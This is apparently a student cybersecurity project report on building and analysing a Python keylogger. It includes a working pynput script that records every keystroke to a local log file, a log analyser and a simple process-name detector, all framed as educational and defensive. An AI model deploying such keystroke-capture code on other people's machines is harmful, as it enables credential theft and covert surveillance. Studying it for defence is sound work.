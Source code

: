 # Development and Analysis of a Keylogger using Python
![NIELIT Logo](assets/NIELIT_logo.jpg)
## Executive Summary
A Python-based keylogger was developed and analyzed to understand its functionality, potential misuse, and defense strategies in cybersecurity. 
The project highlights both the technical aspects of creating such tools and the ethical implications of their usage. 
By studying keylogger behavior, the project emphasizes the importance of awareness, detection, and mitigation strategies to strengthen system security.

## Abstract
This project focuses on the development and analysis of a simple keylogger application using Python for educational and research purposes in cybersecurity. 
The implementation begins with utilizing Python libraries such as `pynput` to capture keyboard events in real time. 
The captured keystrokes are stored in a log file, allowing the monitoring of user input for analysis.

The project explores techniques for running the keylogger in the background, ensuring it operates unobtrusively without interrupting normal system usage. 
Additional functionality, such as time-stamping keystrokes and custom log file storage paths, is also implemented to enhance usability.

On the analytical side, the project examines the potential security implications of keyloggers, including their use in both ethical research and malicious attacks. 
It highlights countermeasures such as antivirus detection, system monitoring tools, and user awareness programs to mitigate risks.

Overall, this project serves as a practical demonstration of how keyloggers function while also emphasizing ethical considerations, 
defensive strategies, and the importance of understanding such tools in the field of cybersecurity.

---

## Introduction
The rise of cyber threats has made cybersecurity an essential discipline in the digital age. 
Among the numerous tools used by attackers, keyloggers remain one of the most effective means of compromising sensitive information. 
A keylogger records keystrokes typed on a keyboard and may be used for malicious purposes such as stealing credentials, financial information, or confidential data. 

However, studying keyloggers is equally important in ethical hacking and cybersecurity education to understand how attackers operate and how to defend against such threats. 
This project introduces the design and implementation of a simple keylogger using Python, providing insights into its development, operation, and associated risks.

---

## Methodology
The methodology for this project involved the following steps:

1. **Environment Setup**: Python environment was prepared with required libraries such as `pynput`.
2. **Implementation of Keylogger**: A script was developed to capture keystrokes in real time and store them in a log file.
3. **Enhancements**: Features such as time-stamping and background execution were added.
4. **Testing**: The script was tested on a controlled environment to validate its accuracy and efficiency.
5. **Analysis**: The behavior of the keylogger was studied to identify potential risks and countermeasures.

This approach ensured that the project remained within ethical and educational boundaries, avoiding misuse while demonstrating practical functionality.

---

## Code Implementation

### 🔹 `demo_keylogger.py`
```python
from pynput import keyboard
import logging
from datetime import datetime

# Log file configuration
log_file = "key_log.txt"
logging.basicConfig(filename=log_file, level=logging.DEBUG, format="%(asctime)s: %(message)s")

def on_press(key):
    try:
        logging.info(f"Key pressed: {key.char}")
    except AttributeError:
        logging.info(f"Special key pressed: {key}")

def on_release(key):
    if key == keyboard.Key.esc:
        return False

with keyboard.Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
```

### 🔹 `log_analyzer.py`
```python
# Reads log file and prints analysis
def analyze_logs(log_file="key_log.txt"):
    try:
        with open(log_file, "r") as f:
            lines = f.readlines()
            print(f"Total keystrokes recorded: {len(lines)}")
            print("Sample log entries:")
            print("".join(lines[:10]))
    except FileNotFoundError:
        print("Log file not found.")

if __name__ == "__main__":
    analyze_logs()
```

### 🔹 `detector.py`
```python
import psutil

# Detect if 'python' process is running keylogger
def detect_keylogger():
    suspicious = []
    for proc in psutil.process_iter(['pid', 'name', 'cmdline']):
        try:
            if "python" in proc.info['name'].lower() and "keylogger" in " ".join(proc.info['cmdline']).lower():
                suspicious.append(proc.info)
        except Exception:
            pass
    if suspicious:
        print("⚠️ Potential Keylogger Detected:", suspicious)
    else:
        print("✅ No keylogger detected.")

if __name__ == "__main__":
    detect_keylogger()
```

---

## Results and Analysis
The developed Python keylogger successfully captured keystrokes and stored them in a designated log file. 
The tool was able to operate in the background without disrupting normal system operations.

Key Observations:
- The keylogger reliably recorded user inputs including letters, numbers, and special characters.
- Time-stamping provided contextual information useful for forensic analysis.
- Running in the background made it unobtrusive and difficult to detect for an untrained user.

The project confirmed the potential dangers of keyloggers when misused, including identity theft, data breaches, and unauthorized surveillance. 
It emphasized the importance of employing defensive measures such as updated antivirus software, intrusion detection systems, and strong user awareness programs.

---

## Conclusion
This project successfully demonstrated the development and operation of a keylogger using Python. 
It provided insights into how such tools function, their potential malicious use, and the ethical importance of studying them in the context of cybersecurity. 

Future work could involve extending the project to analyze detection techniques using machine learning and exploring more advanced countermeasures. 
Ultimately, this project underscores the balance between offensive cybersecurity research and defensive application in real-world scenarios.

---

## References
1. Alazab, M. (2015). Malware detection and mitigation in computer networks: Keyloggers and spyware. IEEE Communications Surveys & Tutorials.
2. Python Software Foundation. (2023). Python Documentation. Available at: https://docs.python.org
3. Pynput Library Documentation. (2023). Available at: https://pynput.readthedocs.io/
4. Stallings, W. (2018). Computer Security: Principles and Practice. Pearson.
5. SANS Institute. (2022). Keylogger Threats and Defensive Strategies. Available at: https://www.sans.org/
